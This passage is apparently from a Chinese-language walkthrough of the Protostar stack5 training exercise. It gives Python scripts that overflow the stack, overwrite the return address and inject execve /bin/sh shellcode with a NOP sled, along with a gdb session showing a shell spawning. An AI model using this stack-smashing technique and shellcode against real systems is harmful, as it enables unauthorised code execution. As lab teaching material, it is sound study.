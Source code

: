 ```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT'
eip = 0xbffff77c + 4
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload = padding + struct.pack('I', eip) + shellcode

print(payload)
```

可以看到下面提示执行了一个新的程序，`/bin/dash`，这样就算是成功了。

```c
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 < /tmp/exp
0x80483da <main+22>:    ret
0xbffff77c:    0xbffff780    0x6850c031    0x68732f2f    0x69622f68
0xbffff78c:    0x89e3896e    0xb0c289c1    0x3180cd0b    0x80cd40c0

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x5454545c
) at stack5/stack5.c:11
11    in stack5/stack5.c
(gdb) c
Continuing.
Executing new program: /bin/dash

Program exited normally.
Error while running hook_stop:
No registers.
```

然后不通过gdb去运行，发现失败了。原因在于，当执行一个程序时，**操作系统会将环境变量推送到堆栈上**。现在，当我们在gdb之外运行可执行文件时，环境不同，因此**shell代码会错位**。为了解决这个问题，我们可以使用`NOP`指令。

`NOP`是 一个**空指令**，它基本上什么也不做。`NOP`指令通常用于控制时序的目的，强制内存对齐，防止流水线灾难，占据分支指令延迟，或是作为占位符以供程序的改善（或替代被移除的指令）。

使用`nop`填充，后面跟上`shellcode`，只要返回地址跳转到`nop`上，最终会执行我们的`shellcode`,`nop`的操作码在Intelx86上是`0x90`。

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT'
eip = 0xbffff77c + 40
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

nopslide = '\x90' * 100
payload = padding + struct.pack('I', eip) + nopslide + shellcode

print(payload)
```
